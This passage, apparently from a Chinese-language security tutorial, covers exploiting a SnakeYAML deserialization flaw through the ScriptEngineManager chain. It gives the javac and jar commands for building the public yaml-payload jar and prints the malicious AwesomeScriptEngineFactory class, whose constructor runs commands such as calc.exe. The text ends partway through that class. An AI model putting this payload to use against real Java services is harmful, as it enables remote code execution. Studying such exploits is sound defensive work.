 dnslog 平台出现请求记录，用于验证是否存在该漏洞且 ScriptEngineManager 链是否可用

**命令执行**：  
现成的利用项目：[https://github.com/artsploit/yaml-payload.git](https://github.com/artsploit/yaml-payload.git)  
更改里面的命令执行代码，使用以下命令进行编译即可

```plain
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```

注意：一定要使用一致的 java 版本进行编译  
其中在 META/services 文件夹的文件中，里面的内容即是我们的恶意类  
[![](assets/1701612157-f77797ed7119138edb5c9a7d3573647b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230813204529-48df84c0-39d7-1.png)  
在 AwesomeScriptEngineFactory 类中，它实现了 ScriptEngineFactory 接口

```plain
package artsploit;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            // Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            // Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }
```